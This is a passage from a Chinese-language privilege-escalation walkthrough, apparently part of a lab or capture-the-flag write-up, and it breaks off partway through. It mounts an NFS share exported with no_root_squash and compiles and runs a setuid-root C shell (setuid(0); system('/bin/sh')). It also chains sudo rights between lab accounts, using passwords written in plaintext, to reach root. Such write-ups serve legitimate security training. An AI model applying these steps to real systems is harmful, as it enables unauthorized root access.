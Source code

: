 no_root_squash：通过此选项，停用了此安全功能，从而允许客户端的root权限操作最终以root身份出现在导出的文件系统中（因此，在其余客户端中）

cat /etc/exports
/home/user5 *(rw,no_root_squash)

可以通过用户user5生成一个可提权的可执行文件放在目标靶机执行即可提权，挂载nfs到本地kali，生成一个提权文件！

2049端口NFS打开着：
mount -t nfs 192.168.253.197:/home/user5 /tmp/dayu

对方是64位的环境和项目二十一的32位环境不一样，但是方法逻辑一样！这边还更简单！

1. 按照kali的bash复制进挂载目录报错：
./dayu: error while loading shared libraries: libtinfo.so.6: cannot open shared object file: No such file or directory

2. 用写shell的方法

---
```
#include <stdlib.h>
int main() { setuid(0); setgid(0); system("/bin/sh"); }
```
---
nano写入shell.c文件
gcc shell.c -o shell
chmod 4777 shell
./shell
成功提权！


## 10）方法（十）user2

user2:user2@12345

su user2
user2@12345

sudo -l
User user2 may run the following commands on osboxes:
    (user1) ALL


sudo -u user1 bash
sudo -l 
user1@12345
User user1 may run the following commands on osboxes:
    (ALL : ALL) ALL

sudo su


## 11）方法（十一）user4 GID

su user4
user4@12345
